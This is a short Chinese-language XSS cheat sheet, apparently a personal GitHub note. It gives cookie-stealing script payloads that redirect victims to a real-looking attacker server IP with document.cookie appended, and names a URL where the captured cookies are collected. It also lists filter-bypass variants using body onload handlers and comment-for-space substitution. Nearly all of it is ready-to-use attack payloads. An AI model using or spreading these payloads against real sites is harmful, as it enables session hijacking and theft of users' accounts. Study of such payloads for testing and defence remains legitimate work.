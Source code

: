 # XSS远程执行漏洞

### 常用js语句
````

document.cookie				用于js获取当前网页的cookie值
window.location.href			 用于获取当前页面地址链接
window.location.href='www.baidu.com'	  用于相当于跳转地址

````

常用playload：

````
<script>window.location.href='http://[ip]/xss.php?cookie='+document.cookie</script>
````
     




### 我直接买了一个服务器并且开放了读写权限可以拿来实验XSS

````
相关的ip和playload
<script>window.location.href='http://106.53.207.220/xss.php?cookie='+document.cookie</script>


回显请看
http://106.53.207.220/cookie.txt
````


## 绕过

* 过滤script标签


````
<body onload="document.location.href='http://106.53.207.220/xss.php?xss='+document.cookie"></body>

````

* 过滤空格(使用tab、/**/来绕过)

````
<body/**/onload="document.location.href='http://106.53.207.220/xss.php?xss='+document.cookie"></body>

````


* 其他可行的playload

````
<body/**/onload="document.location.href='http://106.53.207.220/x.php?x='+document.cookie"></body>
````




